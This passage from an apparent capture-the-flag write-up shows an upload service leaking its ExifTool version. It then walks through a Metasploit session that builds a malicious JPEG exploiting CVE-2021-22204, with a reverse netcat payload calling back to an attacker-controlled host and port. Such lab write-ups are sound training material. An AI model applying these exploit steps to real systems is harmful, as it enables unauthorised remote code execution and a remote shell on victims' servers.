 Another interesting thing was the server response when we upload a file:
```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 22 Mar 2022 02:40:21 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: ./index.php?upload=0
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 2391

ExifTool Version Number         : 11.92
File Name                       : 62393716a29472.00671524.jpg
Directory                       : ../../assets/data/upliid
File Size                       : 114 kB
File Modification Date/Time     : 2022:03:22 08:10:22+05:30
File Access Date/Time           : 2022:03:22 08:10:21+05:30
File Inode Change Date/Time     : 2022:03:22 08:10:22+05:30
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg

...[snip]...
```

It is using exiftool! Doing a little more research on _exiftool_ - specially version 11.92, I found a [CVE-2021–22204](https://www.exploit-db.com/download/49881). Metasploit has a module for the exploit, which makes this super convenient.
```
msf6 > use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set LHOST 10.10.14.3
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > options

Module options (exploit/unix/fileformat/exiftool_djvu_ant_perl_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.jpg          yes       Output file


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   JPEG file

msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > run

[+] msf.jpg stored at /root/.msf4/local/msf.jpg
```
